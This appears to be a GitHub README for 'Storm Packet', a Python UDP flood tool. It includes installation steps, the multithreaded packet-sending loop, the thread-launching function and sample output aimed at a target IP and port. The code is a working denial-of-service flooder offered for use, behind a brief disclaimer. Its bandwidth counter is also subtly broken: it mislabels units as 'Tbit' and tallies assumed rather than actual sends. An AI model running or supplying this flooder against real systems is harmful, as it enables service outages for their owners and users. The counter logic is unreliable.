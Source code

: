 ﻿# Storm Packet

This project simulates a UDP flood attack to test the resilience of a network or server. It sends a high volume of UDP packets to a specified target IP and port using multithreading.

## Features

- Simulates a UDP flood attack for network testing.
- Multithreaded implementation for increased packet-sending speed.
- Configurable target IP, port, and packet size.
- Real-time tracking of total bandwidth sent.
- Color-coded console output for better visibility.

## Usage

### Prerequisites

- Python 3.6 or higher

### Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/dsametkaplan/storm-packet.git
   ```
2. Navigate to the project directory:
   ```bash
   cd storm-packet
   ```

### Running the Simulation

1. Run the script:
   ```bash
   python stormPacket.py
   ```
2. Provide the following inputs when prompted:

   - **Target IP address**: The IP address of the target server.
   - **Target port number**: The port on which the UDP packets will be sent.

3. The script will simulate the UDP flood and display real-time statistics, including the total bandwidth sent.

## Code Explanation

### Main Components

#### Colors Class

This class is used to add color-coded output to the console for better readability.

```python
class Colors:
    GREEN = "\033[92m"
    RED = "\033[91m"
    YELLOW = "\033[93m"
    RESET = "\033[0m"
```

#### UDP Packet Sending Function

This function creates a UDP socket and continuously sends random packets to the target.

```python
def send_udp_packet():
    udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    data_to_send = random._urandom(packet_size)
    while True:
        udp_socket.sendto(data_to_send, (target_ip, target_port))
        print(f"{Colors.GREEN}Packet sent: {target_ip}:{target_port}{Colors.RESET}", end='\r')
```

#### Flood Simulation Function

This function manages the creation and execution of threads for the UDP flood and tracks the total bandwidth sent.

```python
def flood_simulation(num_threads):
    threads = []
    total_sent = 0
    for _ in range(num_threads):
        thread = threading.Thread(target=send_udp_packet)
        threads.append(thread)
        thread.start()

    while total_sent < target_bandwidth:
        time.sleep(1)
        total_sent += num_threads * packet_size * 8 / 1e9
        print(f"{Colors.YELLOW}Total Sent: {total_sent:.2f} Tbit{Colors.RESET}", end='\r')

    for thread in threads:
        thread.join()
```

## Example Output

```plaintext
[93mEnter the target IP address: [0m192.168.1.1
[93mEnter the target port number: [0m8080
[91mStarting Storm Packet with 100 threads...[0m
[92mPacket sent: 192.168.1.1:8080[0m
[93mTotal Sent: 1.20 Tbit[0m
```

## Warning

This script is intended **only for educational purposes** and **authorized network testing**. Unauthorized use of this script on systems you do not own or have explicit permission to test is illegal and unethical.

## License

This project is licensed under the MIT License. See the `LICENSE` file for more information.

## Contributions

Contributions are welcome! Feel free to fork the repository and submit a pull request.
